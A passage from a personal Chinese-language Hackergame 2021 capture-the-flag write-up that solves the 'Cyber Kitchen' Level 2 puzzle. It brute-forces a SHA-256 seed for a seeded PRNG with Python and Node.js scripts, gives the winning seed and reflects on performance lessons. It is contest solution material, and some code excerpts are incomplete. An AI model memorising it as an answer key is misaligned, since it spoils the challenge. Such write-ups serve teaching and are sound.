找到 [`localApi.ts` 中的 `nextDay` 方法](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/src/localAPI.ts#L39-L43)，其中也调用了上面提到过的 `genRandomState` 方法。而在 [第 35 行](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/src/localAPI.ts#L35) 看到它调用了 `fakeVM.getRandomRecipe`，便去看看（[查看源码](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/src/vm.ts#L167-L176)）：

```ts
public getRandomRecipe(seed: string, range: number, length: number): Array<number> {
    let prng = seedrandom(seed);
    let recipe = [];
    for (let i = 0; i < length; i++) {
        let r = prng.int32() % range;
        recipe.push(r);
    }
    recipe = recipe.map(x => (x + range) % range);
    return recipe;
}
```

果然，`seed` 就是一个随机种子，每次创建一个新的伪随机数生成器，用 `seed` 初始化它，并生成 6 个 32 位整数，取其中的低 5 位作为无符号整数，便得到了菜谱。正因为是一个随机种子固定的伪随机数生成器，所以每次都能产生同一个输出。

而这里的伪随机数生成器，`seedrandom`，经过搜索，很好，是一个 [开源库](https://github.com/davidbau/seedrandom)。

在 `vm.ts` 开头，看到了：

```ts
import 'seedrandom' from 'seedrandom'
```

于是找到 [位于 `seedrandom.js` 中的 `seedrandom` 函数](https://github.com/davidbau/seedrandom/blob/3.0.5/seedrandom.js#L40-L104)。很长，来不及细读了，加上我也看不懂具体算法，于是就不考虑把它移植到 python 的可能性了。（然而，我没想到的是，[它用的是一个有名字的伪随机算法](https://github.com/davidbau/seedrandom/blob/released/seedrandom.js#L53-L54)，严格来说是加密算法，[ARC4](https://pycryptodome.readthedocs.io/en/latest/src/cipher/arc4.html)，最后比赛结束后看了官方题解才知道。）

所以，我决定采用如下方案：在 python 中计算 hash，然后输出到标准输出；并写一个 js 脚本，从标准输入读取，并计算出 `recipe` 数组，如果判断它与期待的菜谱相等，就打印 hash 并退出进程；然后把两者用管道连接。

其中，python 一侧的第一个程序用菜谱 `[0, 1, 2, 3, 4, 5]` 硬编码，而第二个程序则是 `向右 i 步`，其中 `i` 从 0 开始自增到 32^6。

现在还有一个问题是，这样单向的管道丢失了这个 `i` 的值，最终输出只有 hash 的话没法反推得到它的 `i` 是多少。于是我打算把它所有 `i` 到 `seed` 的映射都存入一个 sqlite 数据库中，计算结束后反查。

python 这边的脚本很简单（下面的代码没有包括写数据库的部分）：

```python
from hashlib import sha256
import tqdm

def calc_hash(programs: List[str]) -> str:
    hashes = [sha256(p.strip().encode("utf-8")).hexdigest() \
              for p in programs]
    h = sha256("\n".join(hashes).encode("utf-8")).hexdigest()
    return h

def main():
    program = "..."  # 对应菜谱 [0, 1, 2, 3, 4, 5] 的程序

    for i in tqdm.tqdm(range(0, 32**6)):
        programs = [program, f"向右 {i} 步"]
        seed = calc_hash(programs)
        print(seed)
```

#### 编写 js 脚本

（这一段是我作为一个连 js 门都没入的新手的探索过程，熟悉 js 的读者可以直接跳过这一节。）

python 倒是简单，然后问题就是 js。我虽然之前看过一点点 [js 教程](https://zh.javascript.info/)，但也只是一点点，对各种数据类型、对象、标准库则一概不知。所以只好现场搜索。

第一个问题是，js 中如何比较数组相等？我记得教程说过 js 里的相等比较非常坑。回去翻了翻教程，果不其然：[js 里不能用等号比较数组相等](https://zh.javascript.info/array#bu-yao-shi-yong-bi-jiao-shu-zu)。

但是这只告诉了我不能怎么做，却还是不知道该怎么做。经过一番搜索以后，在 StackOverflow 中搜到了 [这个回答](https://stackoverflow.com/questions/3115982/how-to-check-if-two-arrays-are-equal-with-javascript/10316616#10316616)。这一篇长篇大论真是把我吓到了，js 里就是比较个数组就这么困难吗，我只是想比较个数组啊。

接着，我看到这个问题被标记为重复，点进 [链接到的那个问题](https://stackoverflow.com/questions/7837456/how-to-compare-arrays-in-javascript)，好家伙，上千赞、三页回答，这场面我可真从来都没见过。一看，一大堆五花八门的答案，八仙过海各显神通啊。最后，我选择了 [这个回答](https://stackoverflow.com/a/21529742/14723771) 中提到的 [`lodash` 库](https://github.com/lodash/lodash)。

下一个需要解决的问题是从标准输入读取行，我经过搜索搜到了 [node.js 文档中的 `process.stdin`](https://nodejs.org/dist/latest-v16.x/docs/api/process.html#processstdin)。但是，这个 [`read` 方法](https://nodejs.org/dist/latest-v16.x/docs/api/stream.html#readablereadsize) 是怎么用的？为什么示例显得那么奇怪、和传统 posix 风格的 api 差别那么大？

而且，如何从中读取一行呢？我搜到了 [`readline`](https://nodejs.org/dist/latest-v16.x/docs/api/readline.html)，但是这个接口该怎么用？我只需要读取行，为什么这里还需要一个 `stdout` 作为 `output`？

这些 api 真是让我焦头烂额，无奈只好上 StackOverflow 去抄代码了。很快，搜到了 [一个问题](https://stackoverflow.com/questions/20086849/how-to-read-from-stdin-line-by-line-in-node)，可是底下怎么又是这么多五花八门的答案？有的还特别长特别复杂。可是管不了那么多了，我随便选了 [一个看上去比较简单的答案](https://stackoverflow.com/a/20091680/14723771) 抄上去了。

最后，得到的 js 脚本如下：

```js
"use strict";

let _ = require("lodash");
let process = require("process");
let split = require("split");

function my_main() {
    let stdin = process.stdin;
    stdin.setEncoding("utf-8");
    stdin.pipe(split()).on("data", (line) => {
        if (_.isEqual(
            getRandomRecipe(line, 32, 6),
            [0, 1, 2, 3, 4, 5]
        )) {
            console.log(line);
            process.exit(0);
        }
    })
}

my_main()
```

#### 折腾

终于写好了脚本，我用如下命令把它运行了起来：

```shell
$ python level_2.py | node js/level_2.js | tee level_2_out.txt
```

看到 `tqdm` 进度条显示每秒钟 8 万多次迭代，需要约 3 个半小时，我准备先去休息一下。可是，10 分钟后回来看了一眼，可了不得，sqlite 数据库已经膨胀到近 4GiB 了。我的硬盘这小身板可经不住这么多数据。我赶紧停掉了进程。

存下所有数据是行不通了。那么，就只好让 js 从 stdout 中返回 `recipe` 数组，交给 python 判断了，python 在读取并判断完一行以后再进行下一轮迭代。接着，我花了大约 40 分钟，改成了在 python 中用 `subprocess.Popen` 启动 js 子进程并与之通信的方案。结果一试，这下每秒只能执行一万多次迭代了，慢了七八倍。

我猜会不会是读写管道性能不稳定导致每次迭代等待时间过长，于是想改成 python 异步的带缓冲的版本。用一个 `task` 来计算 hash，并把 hash 传给一个队列、把 i 和 hash 一起传给另一个带缓冲的队列；一个 `task` 负责从第一个队列中读取并写入子进程管道；还有一个 `task` 负责从管道中读取 `recipe`、从第二个队列中读取 i 和 hash，判断 `recipe` 是否符合要求，如果符合要求就打印 i 和 hash 并退出进程。

花了两小时终于搞好了异步带缓冲的版本，结果不但性能没有提高，反而还更慢了 1.5 倍。我又尝试用工具做性能分析，但是因为不熟悉如何对 python 异步程序做性能分析，也没有得到什么有意义的结果。

#### 结果

最后，我决定干脆换回原先流水线的方式，并且把 i 和 hash 一起传给 js，并让 js 自己解析。从搜索到改好脚本花了 5 分钟，得到了比原先写数据库的版本性能还高的程序：平均每秒执行大约 10 万次迭代，需要花将近 3 小时。真是踏破铁鞋无觅处，得来全不费工夫啊。

最终版本的 python 和 js 脚本如下：

```python
from hashlib import sha256
import tqdm

def calc_hash(programs: List[str]) -> str:
    hashes = [sha256(p.strip().encode("utf-8")).hexdigest() \
              for p in programs]
    h = sha256("\n".join(hashes).encode("utf-8")).hexdigest()
    return h

def main():
    program = "..."  # 对应菜谱 [0, 1, 2, 3, 4, 5] 的程序

    for i in tqdm.tqdm(range(0, 32**6)):
        programs = [program, f"向右 {i} 步"]
        seed = calc_hash(programs)
        print(f"{i}|{seed}")
```

```js
"use strict";

let _ = require("lodash");
let process = require("process");
let split = require("split");

function my_main() {
    let stdin = process.stdin;
    stdin.setEncoding("utf-8");
    stdin.pipe(split()).on("data", (line) => {
        let [i, seed] = line.split("|")
        if (_.isEqual(
            getRandomRecipe(seed, 32, 6),
            [0, 1, 2, 3, 4, 5]
        )) {
            console.log(i);
            console.log(seed);
            process.exit(0);
        }
    })
}

my_main()
```

三小时后，还是没有得到结果，我又从 32^6 开始爆破到 32^6 * 2。又过了两个半小时，终于得到了结果：

```
1919726866
c23d596bf73b43792a550c55a524cfe7321cc7aa833662fb4211dafcd14cb647
```

把对应的程序和 seed 通过 api 发给服务端，终于拿到了 flag，成为了本次参赛的 15 名做出来这一问的选手之一。

因为对耗时的恐惧，我没有研究就直接放弃了 Level 3，去做别的题了，但是最终也没再做出来新的题。

然而，在赛后看了官方题解后才想起来，总共允许有 128 个程序，如果预先针对 128 种 `recipe` 的排列写好程序，一轮就只需要爆破 `32**6 // 128 == 2**23` 种可能性，时间从 3 小时一下子下降到了 1 分半，如果是两轮爆破的话不到 3 分钟就能得到结果。

#### 教训

这个悲伤的故事告诉我们，在弄清楚要解决的问题之前，不要贸然行动。而戏剧性的“40 分钟、2 小时、5 分钟”则说明，性能不是一个简单的问题，不可想当然；花哨且复杂的方案不一定好，有时候最简单的方案反而是最优解。

另外，调教 mypy 的静态检查也浪费了大量时间。看来，虽然它一定程度有用，但是在近一两年内，不要对 python 的类型提示抱有太多不切实际的幻想。Python 毕竟还不是一个静态类型的语言。

## 赛后

后面就没再做出来题了。之后主要尝试了马赛克一题，思路没错，但是不知为何算出来总是有误差，最终也没做出来。

在赛后看了题解，感觉还有一些我有可能能做、但是没有花时间去尝试的题，例如“加密的 U 盘”、“Micro World”、“JUST BE FUN”、“p😭q”。尤其是“JUST BE FUN”，这种 esolang 我觉得就很好玩，反倒更符合一开始我对“赛博厨房”一题的想象。

另外，在我写“赛博厨房” Level 2 的题解时，在 GitHub 看到了这样一个仓库：*[You-Dont-Need-Lodash-Underscore
](https://github.com/you-dont-need/You-Dont-Need-Lodash-Underscore)*，不过看了一下对于判断数组相等似乎没什么帮助。

本次参赛也确实学到了不少东西，同时也获得了快乐。很满意，明年还来.jpg (doge)

